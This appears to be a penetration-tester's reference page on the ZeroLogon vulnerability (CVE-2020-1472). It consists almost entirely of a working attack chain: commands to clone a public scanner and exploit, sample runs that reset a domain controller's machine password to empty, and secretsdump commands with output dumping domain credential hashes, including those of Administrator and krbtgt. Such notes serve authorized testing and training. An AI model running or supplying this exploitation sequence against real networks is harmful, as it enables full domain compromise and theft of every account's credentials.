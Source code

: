 ```yaml
---
title : "CVE-2020-1472"
# pre : ' '
description : "CVE-2020-1472 ZeroLogon."
date : 2020-09-15T10:19:46+02:00
# hidden : true
# draft : true
weight : 230
# tags : ['']
---
```


---

## ZeroLogon

{{%resources fa_icon_class="fab fa-python" pattern=".*(py)"/%}}

### Scanner

```plain
git clone https://github.com/SecuraBV/CVE-2020-1472.git
pip install -r requirements.txt
```

### Usage

```plain
$ python3 zerologon_tester.py DC2016 10.10.10.10
Performing authentication attempts...
=============================================================================
Success! DC can be fully compromised by a Zerologon attack.
```

Tip: for finding the computer name, use: rdesktop -u '' IP

### Exploit

```plain
git clone https://github.com/dirkjanm/CVE-2020-1472.git
```

```plain
$ python3 cve-2020-1472-exploit.py DC2016 10.10.10.10
Performing authentication attempts...
=========================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```

Dump using 'no-pass' flag and computer account

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -no-pass -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[...]
[*] Cleaning up...
```

Or dump with empty hash

```plain
$ secretsdump.py DC2016\$@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 -just-dc
Impacket v0.9.22.dev1+20200914.162022.81d44893 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:102277341d6c113a28017200e1dfafe9:::
offsec.nl\johndo:1107:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\adm_johndo:1108:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\janedo:1110:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
offsec.nl\tokio:1111:aad3b435b51404eeaad3b435b51404ee:b5165f7ba9b2b1a41245a1e91c48b3a9:::
[..SNIP...]
[*] Cleaning up...
```

## URL List

- [GitHub.com DirkJanM](https://github.com/dirkjanm/CVE-2020-1472)
- [Dirkjanm.io A different way of abusing zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)
- [GitHub.com SecuraBV](https://github.com/SecuraBV/CVE-2020-1472/)
- [GitHub.com DirkJanM krbrelayx](https://github.com/dirkjanm/krbrelayx)

